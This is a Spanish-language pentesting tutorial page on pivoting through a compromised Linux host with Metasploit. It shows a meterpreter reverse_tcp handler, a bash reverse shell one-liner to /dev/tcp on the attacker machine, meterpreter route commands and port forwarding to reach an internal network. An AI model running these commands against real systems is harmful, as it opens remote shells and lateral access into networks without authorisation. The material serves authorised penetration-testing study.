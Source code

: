 # 🐧 Linux

{% hint style="info" %}
El Pivoting solo se podrá hacer si el host tiene más de una interfaz de red (sin contar loopback)
{% endhint %}

Para hacer pivoting en entornos Linux, deberemos explotar la maquina que tiene acceso a ambas redes.

## Metasploit

Una vez tengamos una shell en dicha maquina, nos entablamos una reverse shell desde la maquina victima a la atacante:

```bash
msfconsole

use multi/handler

set LHOST 192.168.1.1

set LPORT 4242

set PAYLOAD linux/x86/meterpreter/reverse_tcp

run
```

Ahora desde la maquina victima, ejecutamos un comando como este:

```bash
/bin/bash -i >& /dev/tcp/192.168.1.1/4242 0>&1
```

Una vez recibimos la sesión de meterpreter, comprobamos que existan varias interfaces de  red, en concreto, una de la red a la que tenemos visibilidad y otra que se conecte a la red que no podemos ver:

<figure><img src="../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

Ahora, y para redireccionar el trafico de la interfaz enp0s8 (interfaz conectada a la red que no tenemos visibilidad), podemos la sesión en segundo plano y usamos el siguiente comando:

```bash
route add IP-INTERFAZ-SECUNDARIA MASCARA-DE-RED ID-SESION
```

<figure><img src="../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

### Port Forwarding

En el port forwarding, lo que hacemos es pasarnos un puerto de la maquina victima a uno local nuestro, por ejemplo, imagina que la maquina victima, tiene el puerto 80 abierto, pues con la ayuda del port forwarding, podríamos pasarnos el puerto 80 de la victima a nuestro puerto 80 en localhost. Para ello, usamos el siguiente comando en metasploit:

```bash
portfwd add -l PUERTO-LOCAL -p PUERTO-VICTIMA -r IP-VICTIMA
```

<figure><img src="../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>
